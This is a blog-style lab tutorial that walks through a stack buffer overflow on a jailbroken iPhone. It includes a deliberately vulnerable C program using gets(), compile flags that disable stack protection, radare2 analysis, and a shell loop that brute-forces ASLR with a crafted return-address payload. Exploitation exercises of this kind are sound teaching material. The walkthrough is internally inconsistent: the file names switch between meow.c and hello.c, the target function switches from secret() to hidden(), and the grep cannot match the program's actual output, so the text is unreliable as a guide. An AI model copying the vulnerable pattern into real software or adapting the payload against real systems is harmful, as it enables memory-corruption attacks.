

# simple iOS ARM64 stack buffer overflow

﷽

Let's pwn on iPhone!     

In this exercise, we'll go through a basic stack buffer overflow on `iOS ARM64` using a minimal `C` programming example. Yes, this will run on a real jailbroken `iPhone`. Let's gooo      

### requirements

To follow along, we'll need:
- jailbroken `iPhone` with:     
- openSSH     
- radare2     
- cr4shed    
- Xcode on macOS (for compiling `ARM64 iOS` binaries)     

### step 1: writing vulnerable code

let's start with a simple vulnerable "victim" program: `meow.c`:     

```cpp
// meow.c

#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

void secret() {
  printf("we are inside the secret function! meow =^..^=\n");
  exit(0);
}

int main(int argc, char* argv[]) {
  printf("meow victim app\n");
  printf("please type your name:\n");

  char buff[16];
  gets(buff);

  // classic buffer overflow here
  printf("hello, %s\n", buff);

  return 0;

}
```

The `gets()` function reads user input without bounds checking - perfect victim for stack smashing.      

### demo 1 (compile for iOS (ARM64))

Let's prepare our victim application. Use `clang` with `iOS SDK` to compile for ARM64:    

```bash
clang -g hello.c -o hello \
-isysroot /Applications/Xcode.app/.../iPhoneOS17.1.sdk \
-arch arm64 -mios-version-min=9.0 \
-fno-stack-protector
```

Here's a step-by-step breakdown of the `clang` command, which is used to compile a C program (`meow.c`) for iOS ARM64 (e.g., for a jailbroken iPhone):     

`clang` - this is the LLVM C compiler used on macOS. It's similar to `gcc`, but used more commonly in `Xcode`-based `iOS/macOS` toolchains.      

`-g` - adds debug symbols to the compiled binary. Allows you to debug or reverse-engineer it using tools like `lldb` or `radare2`.        

`meow.c` - the input source code file you are compiling.      

`-o meow` - specifies the output filename (`meow`) of the compiled binary.

`-isysroot /Applications/Xcode.app/.../iPhoneOS17.1.sdk` -  this sets the SDK path (system root) to point to the `iOS SDK`. It's required when cross-compiling for iOS instead of macOS. This tells `clang` to use `iOS` headers and libraries instead of the host `macOS` ones.     

`-arch arm64` - specifies the target architecture as arm64, used by all modern iPhones (A7 chip and later). ensures that the binary will run on `iOS` devices (not `Intel/macOS`).       

`-mios-version-min=9.0` - sets the minimum `iOS` version your binary will support. ensures compatibility with older `iOS` versions (e.g., `iOS 9+`).    

`-fno-stack-protector` - disables stack protection. this removes the security feature that prevents stack buffer overflows. makes the binary vulnerable by design, useful for exploitation demos or CTFs.      

so this command cross-compiles a `C` program (`meow.c`) into a **non-PIE, ARM64 iOS binary with no stack protection, suitable for running on a jailbroken iPhone** and testing buffer overflow vulnerabilities.      

**we use a macOS system or macOS VM to compile!** - since this is the only official way to generate working iOS binaries.      

### linux option for compiling

use [theos](https://theos.dev/) on `Kali` (for jailbroken `iOS`):      


installation:     

```bash
git clone --recursive https://github.com/theos/theos.git
export THEOS=~/theos
```

then we can use makefile like this:     

```bash
TARGET = iphone:clang:latest
ARCHS = arm64
include $(THEOS)/makefiles/common.mk

TOOL_NAME = meow
meow_FILES = main.c
include $(THEOS_MAKE_PATH)/tool.mk
```

and build with `make`:    

```bash
make
```

we'll get an `arm64 iOS Mach-O` binary - ready to run on a jailbroken `iPhone`.     

### hacking time

Let's run and crash it. After compilation, transfer the "hello" binary into the `iOS` platform. After connecting to the phone via `SSH`, you should make it runnable and signed. Run the binary:    

```bash
chmod +x hello
ldid -S hello
./hello
```

So after running it we'll see the regular way of vulnerable "victim" program's flow:     

     

it's running on iOS without any problem.     

Then for crashing, run it again and when it asks for input - now give it `20` time `A`-s:     

```bash
AAAAAAAAAAAAAAAAAAAA
```

We'll get something like this:    

```bash
Illegal instruction: 4
```

     


Let's increase by four and input `24` times `A`s:     

```bash
AAAAAAAAAAAAAAAAAAAAAAAA
```

Now it crashes with:    

```bash
Bus error: 10
```

     

What is this `Bus error`? If we check out the documentation, we see that it is one of the kill signals, 

    

```bash
gkill -t
 1 HUP    Hangup: 1
 2 INT    Interrupt: 2
 3 QUIT   Quit: 3
 4 ILL    Illegal instruction: 4
 5 TRAP   Trace/BPT trap: 5
 6 ABRT   Abort trap: 6
 7 EMT    EMT trap: 7
 8 FPE    Floating point exception: 8
 9 KILL   Killed: 9
10 BUS    Bus error: 10
11 SEGV   Segmentation fault: 11
12 SYS    Bad system call: 12
13 PIPE   Broken pipe: 13
14 ALRM   Alarm clock: 14
15 TERM   Terminated: 15
16 URG    Urgent I/O condition: 16
17 STOP   Suspended (signal): 17
18 TSTP   Suspended: 18
19 CONT   Continued: 19
20 CHLD   Child exited: 20
21 TTIN   Stopped (tty input): 21
22 TTOU   Stopped (tty output): 22
23 IO     I/O possible: 23
24 XCPU   Cputime limit exceeded: 24
25 XFSZ   Filesize limit exceeded: 25
26 VTALRM Virtual timer expired: 26
27 PROF   Profiling timer expired: 27
28 WINCH  Window size changes: 28
29 INFO   Information request: 29
30 USR1   User defined signal 1: 30
31 USR2   User defined signal 2: 31
```

it's a crash signal when the process touches **invalid memory**. Confirm with:     

```bash
kill -l
```

    

From the crash logs, you can see that we did succeed in BoF (I used Cr4shed for this):    

     

So, `BUS = 10` - perfect! =^..^= We just triggered a buffer overflow.     

### find the secret function address 

Let's go to find the hidden secret function address with `radare2`. Let's check the address of `hidden()`:     

```bash
r2 hello
[0x100000ed0]> aaa
[0x100000ed0]> afl
```

We can see the name of the hidden method here: `sym._hidden`.  Let's take it apart:     

```bash
s sym._hidden
    pdf
     Here we learn the start address of the hidden function: 0x100007e50
```

     

It's not possible to call the address {`0x100007e50`} all at once. For the reason that `ASLR` is being used. Still, we can try calling this function many times with a simple loop in the hopes of hitting it (also, don't forget to block the `hello` process on `Cr4shed` so it doesn't get stuck in the phone memory):     

> NOTE: There's ASLR (Address Space Layout Randomization) on iOS. This means the actual address will shift every time we run the program.

     

### brute force the function call

We'll try to hit the correct address by brute-forcing the overflow with crafted input. Here's the one-liner:    

```bash
for x in $(seq 1 5000); do 
  printf "AAAAAAAAAAAAAAAAAAAA\x50\x7e\x00\x00\x01" | ./hello 2>&1 | grep hidden
done
```

We append the little-endian address of `0x100007e50` (`\x50\x7e\x00\x00\x01`) to our overflow input.     

> Tip: blacklist hello in Cr4shed to avoid memory issues on the phone.    

Pwn! Meow! It worked perfectly! =^..^= eventually, after some iterations, we see:    

      

[Buffer overflow - part 1. Linux stack smashing](https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html)    


